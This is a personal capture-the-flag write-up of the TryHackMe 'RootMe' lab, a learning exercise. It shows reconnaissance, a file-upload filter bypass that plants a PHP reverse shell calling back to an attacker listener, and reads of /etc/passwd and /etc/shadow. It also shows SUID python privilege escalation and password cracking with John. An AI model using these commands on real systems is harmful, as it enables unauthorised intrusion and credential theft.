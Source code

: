 ## TryHackMe - [RootMe](https://tryhackme.com/room/rootme)
> Completed 14th June  2022.

This ended up being a very straight forward boot2root box that required skills that I had picked up on in previous labs. I used this as n opportunity to reinforce some of which I had learned.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Metasploit
- JohnTheRipper

---
### Methodology
#### Objectives/Flags
1. user.txt
2. root.txt

---
#### Reconnaissance
Started off by enumerting the target.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As a webserver was running, I navigated to it in a web browser to see what it's about and what can I further enumerate. While browsing the site's source code I ran `Gobuster` in the background to fuzz out directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP> -w <Wordlist> > <output.txt>
```
```
//uploads             (Status: 301) [Size: 314] [--> http://<TargetIP>/uploads/]
//panel               (Status: 301) [Size: 312] [--> http://<TargetIP>/panel/]  
```

![](/TryHackMe/RootMe/images/Root_001.jpg)
![](/TryHackMe/RootMe/images/Root_002.jpg)

As these two directories were revealed, navigating to them showed me that the site is capable of file uploads and that the upload directory could be accessed. I got to work preparing a reverse shell using `metasploit`.

#### Weaponization 
- N/A

#### Delivery
The reverse shell code I used can be found [here](https://github.com/pentestmonkey/php-reverse-shell). My initial thought was that if the site uses `.php` files as webpages, I should be successful in getting a reverse shell connection if my rshell payload was also in `.php`. While poking at the upload form, we can see that `.php` files are forbidden from being uploaded via extension filtering. Using what I had learned back in my run through [Vulnversity](https://github.com/dozmert/Security-Labs/blob/main/TryHackMe/Vunversity/readme.md)I renamed the file extension to `.phphtml` as first attempt to bypass the filter. The upload was successful.

![](/TryHackMe/RootMe/images/Root_003.jpg)
![](/TryHackMe/RootMe/images/Root_004.jpg)

#### Exploitation
With a successful upload, I was able to see my reverse shell file in the site's upload file directory. I started up `Metasploit` to get a listener going.
```bash
sudo msfdb init && msfconsole
  use exploit/multi/handler
  set lhost <AttackerIP>
  set lport <AttackerListeningPort>
  run
```
From here I could execute the payload through the site which successfully establishes a connection to my listener.
```bash
$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Installation 
- N/A

#### Command & Control
- N/A

#### Actions on Objective
At this point I started walking the file directory of the box hoping to find some loot.
```bash
cd /var/www/
  cat user.txt
    THM{***}
```
I had found my first flag in the web-app's directory. While I was here, I decided to exfiltrate `Website.zip` to my local machine to not only see if I could find anything of interest but perhaps reverse engineer and repurpose in the future. Additional directory exploring revealed that the user `www-data` had access to `passwd` which I copy+pasted onto my localhost.
```bash
cat /etc/passwd
```
As I didn't have the correct permissions to view `/etc/shadow` I started to search for binary manipulations that could escalate my viewing privileges. The box's walkthrough recommended [GTFObins](https://gtfobins.github.io/gtfobins/python/) which was a new resource for me. After some research I found that by running a command through python we could manipulate our session to give us a higher viewing privilege.
```bash
cd/usr/bin/
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
![](/TryHackMe/RootMe/images/Root_005.jpg)
From here we could now view the shadow file which I also copy+paste onto my localhost.
```bash
cat /etc/shadow
```
Later in my exploration of the system I had found indications that `JohnTheRipper` was installed. I tried to dig through its files to see if there was past use recorded however yielding nothing, I decided to use it on my local machine to reduce my footprint. For the wordlist I used `rockyou.txt`.
![](/TryHackMe/RootMe/images/Root_006.jpg)
```bash
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=<wordlist> unshadow.txt > <output.txt>
```
After a short while the passwords are revealed for user `root` and `test`. I could now login as a root.
```bash
su
  su: must be run from a terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Trying to run `su` wasn't going to work as we had manipulated our session to be `sh`. By using a command, we had previously learned, we can re manipulate python to spawn us a new `bash` terminal sessions.
```bash
su
  su
  Password: P**********
root@rootme:/#
root@rootme:/# id
  uid=0(root) gid=0(root) groups=0(root)
```
We are now successfuly logged in as the `root` user and we could now loot the final flag.
```bash
root@rootme:/# cat /root/root.txt
cat /root/root.txt
  THM{***}
```

---
### After-action
#### What I've learned
After completing this box in less time than some other boxes I felt I was reinforcing my knowledge for the boot2root process. New things I learned specifically was just additional vectors for privilege-escalation which were tricky to get my head around but manipulating binaries is all it takes. I'll hold onto [GTFObins](https://gtfobins.github.io/) as a future resource.

#### What I would've done differently
If I was to take on this box again, I would like to have a better understanding of why the `python` binary could be manipulated in such a way and develop a method to prove the vulnerability by checking for versions etc.

